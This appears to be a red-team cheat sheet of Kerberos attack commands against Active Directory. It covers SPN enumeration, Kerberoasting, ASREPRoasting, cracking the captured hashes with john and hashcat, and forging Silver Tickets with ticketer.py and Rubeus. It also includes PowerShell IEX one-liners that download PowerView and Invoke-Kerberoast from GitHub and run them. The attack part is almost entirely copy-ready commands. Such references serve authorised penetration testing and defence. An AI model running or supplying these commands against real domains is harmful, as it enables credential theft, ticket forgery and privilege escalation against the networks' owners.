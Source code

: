 # Kerberos Info Gathering
## Query SPNs
If you want to first only query registered SPNs to limit the noise, there are different methods.   
**CMD.exe**   
Using cmd.exe: (The following example searches all SPNs in the domain from MSSQL servers)   
`setspn -Q MSSQLSvc/*`   

Using cmd.exe on a foreign domain: (The following example searches for Hyper-V related SPNs)   
`setspn -Q *hyper*/* -T <domainname>`   

**Native PowerShell**   
```
$search = [adsisearcher]"(&(sAMAccountType=805306368)(servicePrincipalName=*))"
$search.PageSize = 10000
$spnusers = $search.FindAll()
```   
**BloodHound**   
Using BloodHound: (list all user accounts with an SPN)   
`MATCH (u:User {hasspn:true}) RETURN u`   
You can even expand the BloodHound query to include pathes to computers from these accounts:   
`MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`   

## Get Kerberos Delegation Accounts
Requires AD Modules:   
`Get-ADObject -filter { (UserAccountControl -BAND 0x0080000) -OR (UserAccountControl -BAND 0x1000000) -OR (msDS-AllowedToDelegateTo -like '*') } -prop Name,ObjectClass,PrimaryGroupID,UserAccountControl,ServicePrincipalName,msDS-AllowedToDelegateTo`   

# Kerberos Attacks
## Kerberoasting
### From Windows
Against single user using Rubeus.exe:   
`.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`   
`.\Rubeus.exe kerberoast /spn:"SPN" /nowrap /domain:windomain.local /dc:10.0.2.3`   

Using Powerview:   
``` 
IEX ((New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/4cedfa1c308a1bc37530725734290d506c0170dd/Recon/PowerView.ps1"))
Request-SPNTicket -SPN "<SPN>" -Format Hashcat
```     
Using Invoke-Kerberoast:    
`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat`   

### From Linux
Using GetUserSPN.py:   
`python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`   
Kerberoast all SPNs (NOT OPSEC!!!):   
`proxychains GetUserSPNs.py windomain.local/user:Password123 -dc-ip 192.168.1.12 -request`   
Another tool:   
 - https://github.com/ShutdownRepo/targetedKerberoast   

### Cracking
`john --format=krb5tgs --wordlist=wordlist svc_mssql`   
`hashcat -a 0 -m 13100 svc_mssql wordlist`   

## ASREPRoast 
Query accounts for "do not require Kerberos pre-authentication":   
`([adsisearcher]"(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()`   
Find such users in BloodHound:   
`MATCH (u:User {dontreqpreauth:true}) RETURN u`   

If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request domain.local/someaccount:`   

On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   

### Cracking
`john --wordlist=passwords_kerb.txt hashes.asreproast`   
`hashcat --attack-mode 0 --hash-type 18200 hashes.asreproast /srv/wordlists/uncompressed/crackstation-human-only.txt --rules-file /srv/rules/nsa_500.txt`   

## Silver Ticket Attack
If you have the plaintext password or the NT hash of a service account, you can create Kerberos Service tickets for this service in the name of any user (as long as PAC validation is not enabled).

### Linux
```
ticketer.py -nthash 077CCCC23F8AB7031BEEFB70C694A49 -domain-sid S-1-5-21-875478684-1579768486-654964636 -domain dumpsterfire.local -spn MSSQLSvc/server.dumpsterfire.local:SQLINSTANCE1 targetuser
export KRB5CCNAME=/home/kali/mikkorantanen.ccache
```
Use with e.g.:
`mssqlclient.py dumpsterfire.local/targetuser@server.dumpsterfire.local -k -no-pass`

### Windows
```
.\Rubeus.exe silver /service:MSSQLSvc/server.dumpsterfire.local /rc4:077CCCC23F8ABEEF26A3B70C694A49 /sid:S-1-5-21-875478684-2579768486-654964636 /user:targetuser /domain:dumpsterfire.local /ptt 
```
With `/ptt` the ticket is automatically imported into the local Kerberos cache and can be used to connect to the target service.
